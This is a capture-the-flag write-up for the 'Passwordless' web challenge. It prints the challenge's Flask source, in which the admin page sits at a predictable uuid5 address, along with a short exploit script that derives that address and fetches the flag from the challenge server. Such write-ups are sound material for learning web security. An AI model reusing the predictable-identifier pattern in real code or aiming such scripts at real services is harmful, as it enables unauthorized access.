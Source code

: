 					
					![](attachment/b525cca891743bde0dd6216253c5fda9.png)
## Challenge's Description 

Tired of storing passwords? No worries! This super secure website is passwordless! Author: `NoobMaster`
### Attachments
- [app.py](https://static.n00bzunit3d.xyz/Web/Passwordless/app.py)
- [http://24.199.110.35:40150/](http://24.199.110.35:40150/)

## Solution 

We are given an python file that the website runs. Not something difficult here, it tell us straight forward that to get the flag you need to be the user "admin123" and have the uuid equal to "13371337-1337-1337-1337-133713371337"

**app.py:**
```python
#!/usr/bin/env python3
from flask import Flask, request, redirect, render_template, render_template_string
import subprocess
import urllib
import uuid
global leet

app = Flask(__name__)
flag = open('/flag.txt').read()
leet=uuid.UUID('13371337-1337-1337-1337-133713371337')

@app.route('/',methods=['GET','POST'])
def main():
    global username
    if request.method == 'GET':
        return render_template('index.html')
    elif request.method == 'POST':
        username = request.values['username']
        if username == 'admin123':
            return 'Stop trying to act like you are the admin!'
        uid = uuid.uuid5(leet,username) # super secure!
        return redirect(f'/{uid}')

@app.route('/<uid>')
def user_page(uid):
    if uid != str(uuid.uuid5(leet,'admin123')):
        return f'Welcome! No flag for you :('
    else:
        return flag

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=1337)
```

If we try to do it without some tool or script to intercept the requests we will failed cause after we insert the username as "admin123" a random uuid get generated and of course isn't the one that we want to get the flag. 
So, in order to take the flag we must do it with some tool like burpsuite/postman or to write an exploit script. I did both of them xD

**exploit.py:**
```python
#!/usr/bin/env python3
import uuid
from requests import get

url = "http://24.199.110.35:40150/"

leet = uuid.UUID('13371337-1337-1337-1337-133713371337')
admin_username = 'admin123'

admin_uid = uuid.uuid5(leet, admin_username)
print('[+] admin uuid: ' + str(admin_uid))

r = get(url=url+str(admin_uid))
print(r.text)
```

And we got the flag!

```sh
┌──(vein㉿vein)-[~]
└─$ ./exploit.py      
[+] admin uuid: 3c68e6cc-15a7-59d4-823c-e7563bbb326c
n00bz{1337-13371337-1337-133713371337-1337}
```